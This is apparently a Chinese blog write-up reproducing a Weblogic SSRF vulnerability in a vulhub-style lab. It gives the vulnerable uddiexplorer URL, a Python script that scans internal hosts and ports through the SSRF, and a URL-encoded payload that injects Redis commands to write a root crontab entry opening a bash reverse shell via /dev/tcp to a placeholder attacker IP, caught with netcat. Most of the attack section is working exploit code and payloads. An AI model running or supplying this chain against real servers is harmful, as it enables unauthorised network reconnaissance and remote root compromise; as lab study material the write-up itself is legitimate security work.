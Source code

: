```yaml
---
title: Weblogic SSRF漏洞
date: 2020-07-08 20:56:39
categories: 漏洞复现
tags: Weblogic
---
```


#### 背景

Weblogic存在一个SSRF漏洞，可以探测内网服务，也可攻击内网设备

<!--more-->

#### 复现过程

漏洞存在于以下url的**operator**参数

```
http://ip:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001
```

访问存在的7001端口，会返回404 error code

![](http://cdn.laohuan.art/2020-07-03_16-38-14.png)

访问不存在的端口会返回not connect

![](http://cdn.laohuan.art/2020-07-03_16-36-35.png)

根据不同端口返回的状态不同，可以来探测内网端口的开放情况

端口探测脚本

```
import thread
import time
import re
import requests


def ite_ip(ip):
    for i in range(1, 256):
        final_ip = '{ip}.{i}'.format(ip=ip, i=i)
        print final_ip
        thread.start_new_thread(scan, (final_ip,))
        time.sleep(3)

def scan(final_ip):
    ports = ('21', '22', '23', '53', '80', '135', '139', '443', '445', '1080', '1433', '1521', '3306', 
'3389', '4899', '8080', '7001', '8000','6389','6379')
    for port in ports:
        vul_url = 'http://ip:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&tx
tSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://%
s:%s&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Se
arch' % (final_ip,port)
        try:
            #print vul_url
            r = requests.get(vul_url, timeout=15, verify=False)
            result1 = re.findall('weblogic.uddi.client.structures.exception.XML_SoapException',r.conten
t)
            result2 = re.findall('but could not connect', r.content)
            result3 = re.findall('No route to host', r.content)  
            if len(result1) != 0 and len(result2) == 0 and len(result3) == 0:
                print '[!]'+final_ip + ':' + port
        except Exception, e:
            pass


if __name__ == '__main__':
    ip = "192.168.16"  
    if ip:
        print ip
        ite_ip(ip)
    else:
        print "no ip"
```

可发现内网开放6379端口，存在redis数据库

![](http://cdn.laohuan.art/2020-07-03_17-03-23.png)

写入redis计划任务反弹shell，在**operator**参数添加pyalaod

```
http://ip:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://192.168.16.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F反弹ip%2F反弹端口%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

将以上url解码实际为

![](http://cdn.laohuan.art/2020-07-03_20-38-48.png)

NC监听成功反弹shell

![](http://cdn.laohuan.art/2020-07-03_20-42-47.png)

#### 参考链接

<https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf/>

<https://www.jianshu.com/p/42a3bb2b2c2c/>